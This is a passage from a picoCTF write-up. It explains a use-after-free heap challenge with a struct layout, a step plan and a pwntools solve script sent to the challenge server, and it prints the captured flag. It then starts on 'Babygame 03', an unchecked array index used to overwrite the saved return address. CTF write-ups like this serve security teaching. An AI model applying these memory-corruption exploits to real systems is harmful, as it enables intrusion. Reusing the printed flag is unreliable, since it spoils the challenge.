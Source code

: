 The struct looks like this:
```c
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;
```
So we have 30 bytes before we write to the `flag`.

So, in summary the plan is:
1. Free the chunk
2. allocate another chunk of the same size (35 bytes)
3. write 30 bytes of junk and then `pico` into the `flag` variable
4. call the `check_win function`
5. get the flag


Final solve script:

```py
from pwn import ELF, p64, process, context, ROP, gdb, remote

context.binary = binary = ELF("chal")
# p = process()
p = remote("tethys.picoctf.net", 60312)

p.sendline(b"5")  # free x

p.sendline(b"2")  # allocate that same chunk back
p.sendline(b"35")
p.sendline(b"a" * 30 + b"pico")

p.sendline(b"4")  # check for win

p.interactive()

```
``🚩:`` **picoCTF{now_thats_free_real_estate_79173b73}**

### Babygame 03 [400 PTS]

This challenge took so much reverse engineering that I don't even feel like writing about it.

I will just explain the vulnerability and then show the solve script with some comments

Basically when the character moves the way it does it is through this line:

```c
map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title
```
This means we can access anything on the stack since the index of the array isn't being checked if it is negative or too large or anything like that.

Using this, we can overwrite the saved eip on the stack a few times to jump around the code and eventually get to the `win` function.
